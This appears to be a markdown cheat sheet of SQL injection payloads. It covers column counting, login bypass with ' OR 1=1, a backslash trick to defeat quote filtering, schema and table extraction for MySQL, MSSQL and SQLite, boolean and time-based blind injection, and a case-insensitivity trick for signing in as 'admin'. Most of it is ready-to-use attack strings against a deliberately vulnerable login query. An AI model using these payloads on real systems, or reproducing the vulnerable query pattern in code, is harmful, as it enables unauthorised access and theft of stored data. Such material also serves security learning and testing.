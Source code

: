###### In the following queries, `'` may not work sometimes, so { **\`**,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

### Finding no of columns in table _(Error-based SQLI)_
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' UNION SELECT 1,2,3.. FROM table_name --`
* _[$input_user]_ : `' ORDER BY n --`  [If we get error for n, then n-1 will be no of columns]
 
### Limiting no of rows
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' OR 1=1 LIMIT 1 --`

### Special Bypassing
* Bypassing filtered `'`__[quote]__

```   
 <?php 
 $name = preg_replace("'","",$name);
 $pass = preg_replace("'","",$pass);
 SELECT * FROM users WHERE username='name' and password='pass'
```
  _[attack]_ => user = `\`  & pass = `OR 1=1 --`

## For Mysql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,database() --`

#### Extracting Tables from databases
*  _[$input_user]_ : `' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`

#### Extracting columns from databases
*  _[$input_user]_ : `' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()`
*  _[$input_user]_ : `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

## For Mssql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,db_name(i) --` [Here **i** is the i-th database present]
*  _[$input_user]_ : `' UNION SELECT 1,@@version,name FROM master..sysdatabases --`

__[In MsSQL, if second colums is `username` then the payload `' UNION SELECT 1,1,name FROM master..sysdatabases --` won't work , second column MUST be a string. Interesting !!]__

## For sqlite
 In sqlite __sqlite_master__ replaces __information_schema__
 
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
#### Extracting sqlite version
  _[$input_user]_ : `' UNION SELECT sqlite_version()`
#### Extracting table names
  _[$input_user]_ : `' UNION SELECT name FROM sqlite_master WHERE type='table'`
#### Extracting column names from a table
  _[$input_user]_ : `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`

## Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is __case-insensitive__

  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]

## Time-based Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
#### MySQLI
*  _[$input_user]_ : `' OR (SELECT SLEEP(10) FROM table_name WHERE username='something') --`
*  _[$input_user]_ : `' OR IF(username='something',SLEEP(10),0) --`

    [Produces a delayed response if username=`something` exists]
#### SQLite
* _[$input_user]_ : `' OR CONDITION='true' AND 1=randomblob(100000000) --`

    [Produces a delayed response if CONDITION='true']
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`
